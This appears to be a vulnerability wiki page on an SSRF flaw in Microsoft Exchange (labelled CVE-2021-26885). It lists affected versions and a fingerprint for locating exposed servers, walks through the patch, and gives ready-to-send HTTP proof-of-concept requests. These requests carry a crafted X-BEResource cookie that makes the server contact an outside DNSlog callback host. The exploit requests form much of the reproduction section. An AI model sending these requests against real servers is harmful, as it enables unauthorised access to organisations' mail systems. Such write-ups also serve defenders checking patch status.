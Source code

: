 # Microsoft Exchange SSRF Vulnerability CVE-2021-26885

## Vulnerability Description

Exchange Server is a set of email service components of Microsoft, a messaging and collaboration system. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Exchange 2013 Versions < 15.00.1497.012,</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Exchange 2016 CU18 < 15.01.2106.013,</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Exchange 2016 CU19 < 15.01.2176.009,</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Exchange 2019 CU7 < 15.02.0721.013,</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Exchange 2019 CU8 < 15.02.0792.010</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1768726119"</span>

## Vulnerability reappears

Files related to SSRF

```plain
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

Check the changes in the patch to see changes in the class used by `BackEndServer` about `BERsourceRequestHandler`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746644.png)



Fixed the patch of the BakcEndServer class used by BERsourceRequestHandler

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746353.png)



View the method that calls `BERsourceRequestHandler` `SelectHandlerForUnauthenticatedRequest` Find the relevant path `ProxyMoudle`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746419.png)



You can see that you need to have the EXP protocol (such as the path /ecp/), the cookie parameter `X-BEResponse`, and URLs ending with static extensions (such as x.js, x.css, etc.)

The requests are implemented by HttpProxy, so most of the requested files in POC are `/etc/y.js`, which is similar to non-existent files.

Parameter `X-BERsource` parsed in `BackEndServer.FromString`

Track the `BackEndServer` object, where the object uses `ProxyRequestHandler` to send a request to the host

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746711.png)

Here, you can replicate the vulnerability of SSRF, first access the `/ecp/test11.js` file.

And set the cookie `X-BERsource=test_wiki/api/endpoint#~1; X-AnonResource=true`

```plain
GET /ecp/test11.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=test_wiki/api/endpoint#~1; X-AnonResource=true
```

Requesting in this way can determine whether an SSRF vulnerability exists

```plain
响应包为:
NegotiateSecurityContext failed with for host 'test_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

SSRF sent a request to Dnslog to confirm whether there is an existence SSRF sent a request to Dnslog

```plain
GET /owa/auth/test.js HTTP/1.1
Host: 
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```



<a-alert type="success" message="Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;" description="" showIcon>
</a-alert>
<br/>


</a-alert>
<br/>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220311182746597.png)



Confirm that the request sent by the server has been received, and there is an SSRF vulnerability